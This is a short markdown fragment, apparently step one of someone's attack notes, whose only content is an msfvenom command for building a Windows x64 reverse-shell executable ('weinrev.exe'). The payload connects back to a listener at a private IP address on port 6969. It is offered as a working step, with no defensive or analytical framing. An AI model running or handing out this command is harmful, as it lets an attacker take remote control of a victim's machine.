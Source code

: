 1. make revshell exe file
   
   ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=6969 -f exe > weinrev.exe ```
